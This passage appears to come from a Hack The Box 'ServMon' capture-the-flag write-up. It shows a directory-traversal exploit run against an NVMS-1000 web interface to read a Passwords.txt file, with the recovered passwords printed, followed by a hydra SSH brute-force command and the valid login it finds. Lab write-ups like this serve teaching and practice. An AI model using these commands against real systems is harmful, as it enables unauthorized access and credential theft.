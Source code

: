 ## Web Enumeration ⤵️

I checked port 80 and got this `NVMS-1000` CMS site :

![Untitled](ServMon/Untitled.png)

I checked online about its vulnerability and I got one exploit related to directory or files bruteforcing so lets use this exploit →

[TVT NVMS 1000 - directory or files bruteforcing](https://www.exploit-db.com/exploits/48311)

I used this exploit but it throws some error so I used another same exploit from this github →

[](https://github.com/AleDiBen/NVMS1000-Exploit/blob/master/nvms.py)

I got this site vulnerable and some content out →

![Untitled](ServMon/Untitled%201.png)

I got the hint from `confidentials.txt` file as Passwords.txt file save in Desktop directory of Nathan user so lets check that directory.

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/ServMon]
└─$ python3 exploit3.py 10.10.10.184 Users/Nathan/Desktop/Passwords.txt win.txt
[+] DT Attack Succeeded
[+] Saving File Content
[+] Saved
[+] File Content

++++++++++ BEGIN ++++++++++
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
++++++++++  END  ++++++++++
```
{: .nolineno}
{: .nolineno}

  

I got a list of passwords so lets save them in a file called password.txt and take usernames in another file as user.txt and then run bruteforce on ssh login service.

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/ServMon]
└─$ hydra -L user.txt -P passwords.txt ssh://10.10.10.184 -t 4
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-11 20:31:03
[DATA] max 4 tasks per 1 server, overall 4 tasks, 28 login tries (l:4/p:7), ~7 tries per task
[DATA] attacking ssh://10.10.10.184:22/
[22][ssh] host: 10.10.10.184   login: nadine   password: L1k3B1gBut7s@W0rk
[22][ssh] host: 10.10.10.184   login: Nadine   password: L1k3B1gBut7s@W0rk
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-11 20:31:15
                                                                        
┌──(kali㉿kali)-[~/Downloads/HTB/ServMon]
└─$ cat user.txt 
nathan
nadine
Nathan
```